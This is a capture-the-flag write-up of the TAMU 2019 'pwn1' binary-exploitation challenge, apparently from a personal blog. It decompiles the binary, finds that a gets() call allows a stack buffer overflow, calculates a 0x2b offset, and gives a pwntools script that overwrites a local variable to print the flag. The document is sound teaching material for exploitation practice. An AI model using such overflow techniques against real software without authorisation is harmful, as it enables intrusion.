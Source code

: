 ### Binary Exploitation

### Source: Tamu19

### Basic File Check

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ file tamu19_pwn1 
tamu19_pwn1: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
                                                                                                                                                                                                                  
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ checksec tamu19_pwn1 
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Documents/Pentest/BOF/03-begineer_bof/tamu19_pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We see its a `x86` binary which is `dynamically linked`, `non-stripped` and its protection are `NX,PIE`

Now i'll run it to have an idea of what it does

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1                           
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
pwner
I don't know that! Auuuuuuuugh!
```

Lets decompile the binary using ghidra

```
{
  int input_length;
  char input [43];
  int secret;
  undefined4 local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(stdout,(char *)0x2,0,0);
  local_14 = 2;
  secret = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other  side he see."
      );
  puts("What... is your name?");
  fgets(input,0x2b,stdin);
  input_length = strcmp(input,"Sir Lancelot of Camelot\n");
  if (input_length != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,stdin);
  input_length = strcmp(input,"To seek the Holy Grail.\n");
  if (input_length != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(input);
  if (secret == L'\xdea110c8') {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

We can see what it does

```
1. It asks for the username which is (Sir Lancelot of Camelot) and uses fget to receieve the input which is then stored in a 43bytes buffer 
2. If that first codition isn't meet it exits but if it if we get another question
3. What's the quest which is (To seek the Holy Grail.) and the answer is recieved using fget which is also still stored in the 43bytes buffer 
4. If the condition isn't meet it exits but if it is we get another question
5. What is my secret 
6. It does an if check to compare the value stored in the secret variable with 0xdea110c8
7. if its correct it prints out the flag else it exits
```

Now from this we know that get can perform a buffer overflow cause the third question uses an insecure input receive method which is `get`

Also the problem is, in the code the secret variable currently has a value of `0`

So when the if check reaches we won't get the flag cause the comparism isn't meet

So lets try it now 

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
lol 
I don't know that! Auuuuuuuugh!
```

Now lets start it again and this time around send 100 A's when we get to the third question

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ python2 -c "print 'A'*100"                               
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                                                                                                                                                                                                                  
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1             
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I don't know that! Auuuuuuuugh!
zsh: segmentation fault  ./tamu19_pwn1
```

Sweet we get a segfault

Now lets get the offset. Which we will get from looking at the stack frame in ghidra


```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             int __cdecl main(void)
             int               EAX:4          <RETURN>                                XREF[1]:     00010807(W)  
             undefined4        EAX:4          input_length                            XREF[1]:     00010807(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     00010780(R)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)  
             undefined4        Stack[-0x18]:4 secret                                  XREF[2]:     000107b4(W), 
                                                                                                   000108b2(R)  
             undefined1[43]    Stack[-0x43]   input                                   XREF[5]:     000107ed(*), 
                                                                                                   00010803(*), 
                                                                                                   0001084f(*), 
                                                                                                   00010865(*), 
                                                                                                   000108a6(*)  
                             main                                            XREF[5]:     Entry Point(*), 
                                                                                          _start:000105e6(*), 00010ab8, 
                                                                                          00010b4c(*), 00011ff8(*)  
```

Nice we see our input starts with an offset of `-0x43` and the offset to secret is `-0x18`

Therefore this gives an offset of `0x43 - 0x18 = 0x2b` between the start of our input and the secret variable

So bascially what we'll do is to overwrite the variable secret with the content of `0xdea110c8`

Here's my script below

```
from pwn import *

io = process('./tamu19_pwn1')

answer_1 = "Sir Lancelot of Camelot"
answer_2 = "To seek the Holy Grail."

io.sendlineafter(b'?', answer_1)
io.sendline(answer_2)

offset = "0"*0x2b
overwrite = p32(0xdea110c8)

secret = offset + overwrite 

io.send(secret)
io.send('\n')
io.interactive()
```

Lets run it 

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ python2 pwnexploit.py
[+] Starting local process './tamu19_pwn1': pid 103999
[*] Switching to interactive mode
[*] Process './tamu19_pwn1' stopped with exit code 0 (pid 103999)
What... is your quest?
What... is my secret?
Right. Off you go.
FLAG{this_is_a_fake_flag}

[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive

```

And we're done 


<br> <br>
[Back To Home](../../index.md)
<br>



<br> <br>
[Back To Home](../../index.md)
<br>



